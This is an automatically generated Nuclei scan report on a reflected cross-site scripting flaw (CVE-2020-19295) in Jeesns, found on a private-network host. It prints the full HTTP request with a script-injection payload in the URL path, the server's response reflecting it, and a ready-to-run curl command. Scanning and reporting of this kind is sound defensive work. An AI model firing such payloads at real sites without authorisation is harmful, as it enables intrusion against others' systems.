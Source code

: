 ### Jeesns Weibo Topic Reflection XSS (CVE-2020-19295) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2020-19295**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/weibo/topic/%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:28 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Jeesns Weibo Topic Reflection XSS |
| Authors | pikpikcu |
| Tags | cve, cve2020, jeesns, xss |
| Severity | medium |
| Description | Reflected cross-site scripting (XSS) vulnerability in Jeesns 1.4.2 allows attackers to execute arbitrary web scripts or HTML via a crafted payload in the system error message's text field. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2020-19295](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2020-19295) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /weibo/topic/%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 202
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/weibo/topic/</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://github.com/zchuanzhao/jeesns/issues/21
- https://nvd.nist.gov/vuln/detail/cve-2020-19295
- https://www.seebug.org/vuldb/ssvid-97950

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36' 'http://192.168.198.179:8080/weibo/topic/%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)